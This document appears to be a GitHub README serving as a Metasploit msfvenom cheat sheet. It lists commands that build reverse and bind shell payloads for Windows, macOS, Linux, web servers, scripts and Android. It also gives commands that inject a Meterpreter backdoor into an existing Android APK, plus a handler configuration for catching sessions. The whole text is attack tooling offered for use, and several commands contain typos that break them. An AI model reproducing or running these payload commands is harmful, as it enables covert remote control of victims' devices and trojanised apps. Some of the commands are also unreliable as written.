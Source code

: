 # Payloads
Android and different os payloads easy to modify and inject

<h2>Cheetsheet Metasploit</h2>

Windows Payloads
Windows Meterpreter Reverse Shell

<pre><code> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </code></pre>

Windows Reverse Shell
<pre><code> msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </code></pre>

Windows Encoded Meterpreter Reverse Shell
<pre><code> msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </code></pre>

Windows Meterpreter Reverse Shellcode
<pre><code> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </code></pre>

macOS Payloads
macOS Bind Shell
<pre><code> msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </code></pre>

macOS Reverse Shell
<pre><code> msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </code></pre>

macOS Reverse TCP Shellcode
<pre><code> msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </code></pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre><code> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </code></pre>

Linux Bind TCP Shell
<pre><code> msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </code></pre>

Linux Bind Meterpreter TCP Shell
<pre><code> msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </code></pre>

Linux Meterpreter Reverse Shellcode
<pre><code> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </code></pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre><code> msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </code></pre>

JSP Java Meterpreter Reverse Shell
<pre><code> msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </code></pre>

ASP Meterpreter Reverse Shell
<pre><code> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </code></pre>

WAR Reverse TCP Shell
<pre><code> msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </code></pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre><code> msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </code></pre>

Bash Unix Reverse Shell
<pre><code> msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </code></pre>

Python Reverse Shell
<pre><code> msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </code></pre>

Android Payloads
Android Meterpreter reverse Payload
<pre><code> msfvenom -p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </code></pre>

Android Bind Meterpreter Payload
<pre><code> msfvenom -x app.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o out.apk </code></pre>
<pre><code>msfvenom --platform android --arch dalvik -x myApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168** LPORT=7777 -o build.apk</code></pre>

#Save AS explort.rc
Run command 


<pre><code>
# msfconsole -q -r 'export.rc'
# nano export.r
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 5576
set ExitOnSession false
set EnableStageEncoding true
run -j
</code></pre>


